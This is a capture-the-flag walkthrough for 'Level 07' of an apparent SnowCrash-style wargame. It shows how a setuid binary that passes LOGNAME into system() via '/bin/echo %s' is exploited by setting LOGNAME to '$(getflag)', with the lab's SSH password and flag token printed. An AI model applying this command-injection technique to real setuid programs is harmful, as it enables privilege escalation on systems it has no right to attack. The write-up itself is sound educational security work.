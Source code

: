 # Level 07

## Requirements

- None

## Walkthrough

1. Login from the __attacker__'s machine.

	```
	ssh -p 4242 level07@192.168.1.32
	Password: wiok45aaoguiboiki2tuin6ub
	```

1. Check files.

	```sh
	> ls -l
	total 12
	-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
	```

1. Let's run it.

	```sh
	> ./level07
	level07

	> ./level07 qwe
	level07
	```

1. Ok, nothing to fancy, do a quick `strings` check.

	```sh
	> strings level07
	...
	setresgid
	asprintf
	getenv
	setresuid
	system
	getegid
	geteuid
	...
	/bin/echo %s
	...
	```

1. From the result, we can notice that it looks like compiled C/C++ code. Then, a couple of function caught my attention.

	```
	- `asprintf` is used to print formatted text to allocated string
	- `system` is used to execute a shell command
	- `getenv` is used to get an environment variable
	- `/bin/echo` is a shell command used to print content
	- `%s` following the `/bin/echo` might indicate that the previous `asprintf` function is used with it
	```

1. From now on, I think we have to exploit an environment variable to inject our command into this `/bin/echo %s`.

	```sh
	> /bin/echo $(getflag)
	```

1. But I don't know which variable I have to exploit... All I know is that environment variable's name have restriction.

	```
	Environment variable's name, which can consist of up to 64 characters and must be specified. The name can contain upper- and lowercase letters, numbers, and underscores (_), but it must start with a letter or underscore.
	```

1. So, multiple technique came to my mind, first of all, we could run `level07` using GDB and try to find the one we want, another approach would be to decompile `level07` using Ghidra, but let's start by  a simpler method and filter our `strings` output for now.

	```sh
	> strings level07 | grep "^[a-zA-Z_]\w*$"
	__gmon_start__
	_IO_stdin_used
	setresgid
	asprintf
	getenv
	setresuid
	system
	getegid
	geteuid
	__libc_start_main
	UWVS
	LOGNAME
	__uid_t
	envp
	setresuid
	getenv
	setresgid
	system
	argc
	__gid_t
	main
	asprintf
	buffer
	argv
	__CTOR_LIST__
	__DTOR_LIST__
	__JCR_LIST__
	__do_global_dtors_aux
	frame_dummy
	__CTOR_END__
	__FRAME_END__
	__JCR_END__
	__do_global_ctors_aux
	__init_array_end
	_DYNAMIC
	__init_array_start
	_GLOBAL_OFFSET_TABLE_
	__libc_csu_fini
	data_start
	_edata
	_fini
	__DTOR_END__
	__data_start
	__gmon_start__
	__dso_handle
	_IO_stdin_used
	__libc_csu_init
	_end
	_start
	_fp_hw
	__bss_start
	main
	_Jv_RegisterClasses
	_init
	```

1. Great, we could reduce even more by removing well known function's name. But since there isn't much case, we can just run a loop through each of them and test for now.

	```sh
	> for v in $(strings level07 | grep "^[a-zA-Z_]\w*$"); do declare $v="exploitme" && ./level07; done
	level07
	level07
	level07
	level07
	level07
	level07
	level07
	level07
	level07
	level07
	level07
	exploitme
	exploitme
	exploitme
	...
	exploitme
	exploitme
	exploitme
	```

1. Amazing! Our injection starts working after 11 tries, so we just have to check which variable's name correspond to it from our filtered selection.

	```sh
	> strings level07 | grep "^[a-zA-Z_]\w*$"
	...
	LOGNAME
	...
	```

1. Got it! Let's try to set only this one to confirm our result.

	```sh
	> LOGNAME="logname" && ./level07
	logname
	```

1. Perfect, we were right. Now, inject our `getflag` as a subcommand.

	```sh
	> LOGNAME="\$(getflag)" && ./level07
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

## Documentation

- Function: [asprintf](https://man7.org/linux/man-pages/man3/asprintf.3.html)
- Function: [getenv](https://man7.org/linux/man-pages/man3/getenv.3.html)
- Function: [system](https://man7.org/linux/man-pages/man3/system.3.html)
- Software: [GDB](https://www.gnu.org/savannah-checkouts/gnu/gdb/index.html)
- Software: [Ghidra](https://ghidra-sre.org/)
